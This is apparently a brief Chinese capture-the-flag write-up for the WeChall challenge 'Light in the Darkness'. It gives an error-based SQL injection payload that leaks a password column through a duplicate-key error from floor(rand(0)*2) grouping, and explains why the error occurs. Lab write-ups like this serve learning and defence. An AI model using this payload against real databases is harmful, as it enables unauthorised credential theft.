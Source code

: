 ```yaml
---
title: Light in the Darkness
author: rk700
layout: post
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/Mawekl/light\_in\_the_darkness/index.php][1]  
这道题的错误会回显，而且限制要在2次query内得到答案，所以用error based：  
<pre>' or (select count(*) from information_schema.tables group by concat(password,floor(rand(0)*2)))-- </pre>

至于为什么这样会出错，可以看这里：  
<http://stackoverflow.com/questions/11787558/sql-injection-attack-what-does-this-do>  
简单地说，`floor(rand(0)*2)`会得到0,1,1,0&#8230;&#8230;第2个和第3个重复的1会造成重复的group_key。而且我们需要一个行数大于3的表，所以选择`information_schema`

 [1]: http://www.wechall.net/challenge/Mawekl/light_in_the_darkness/index.php